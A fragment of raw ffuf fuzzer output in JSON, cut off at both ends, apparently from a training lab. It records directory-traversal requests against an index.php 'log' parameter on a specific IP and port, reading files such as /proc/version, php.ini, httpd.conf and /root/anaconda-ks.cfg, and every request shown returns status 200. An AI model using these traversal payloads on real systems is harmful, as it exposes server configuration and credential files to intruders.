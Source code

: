 charset=UTF-8","redirectlocation":"","scraper":{},"duration":44380671,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//logs/pure-ftpd.log","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf561","FUZZ":"/logs/security_debug_log"},"position":97,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":44347971,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//logs/security_debug_log","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf562","FUZZ":"/logs/security_log"},"position":98,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":44421482,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//logs/security_log","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf563","FUZZ":"/opt/lampp/etc/httpd.conf"},"position":99,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":44362962,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//opt/lampp/etc/httpd.conf","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf564","FUZZ":"/opt/xampp/etc/php.ini"},"position":100,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":44350031,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//opt/xampp/etc/php.ini","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf566","FUZZ":"/proc/filesystems"},"position":102,"status":200,"length":2424,"words":150,"lines":132,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":44218160,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//proc/filesystems","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf565","FUZZ":"/proc/cpuinfo"},"position":101,"status":200,"length":6734,"words":726,"lines":214,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":44805473,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//proc/cpuinfo","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf568","FUZZ":"/proc/ioports"},"position":104,"status":200,"length":3177,"words":361,"lines":148,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":43684297,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//proc/ioports","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf56a","FUZZ":"/proc/modules"},"position":106,"status":200,"length":8643,"words":745,"lines":221,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":44293841,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//proc/modules","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf56e","FUZZ":"/proc/version"},"position":110,"status":200,"length":2234,"words":170,"lines":103,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":43198725,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//proc/version","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf56d","FUZZ":"/proc/swaps"},"position":109,"status":200,"length":2085,"words":150,"lines":103,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":43619827,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//proc/swaps","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf567","FUZZ":"/proc/interrupts"},"position":103,"status":200,"length":5556,"words":2074,"lines":146,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":45418717,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//proc/interrupts","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf56c","FUZZ":"/proc/stat"},"position":108,"status":200,"length":5476,"words":1666,"lines":114,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":44609742,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//proc/stat","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf569","FUZZ":"/proc/meminfo"},"position":105,"status":200,"length":3549,"words":669,"lines":156,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":45416397,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//proc/meminfo","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf56b","FUZZ":"/proc/mounts"},"position":107,"status":200,"length":4330,"words":260,"lines":124,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":45175425,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//proc/mounts","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf56f","FUZZ":"/proc/self/net/arp"},"position":111,"status":200,"length":2202,"words":223,"lines":104,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":44451602,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//proc/self/net/arp","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf570","FUZZ":"/root/anaconda-ks.cfg"},"position":112,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html;
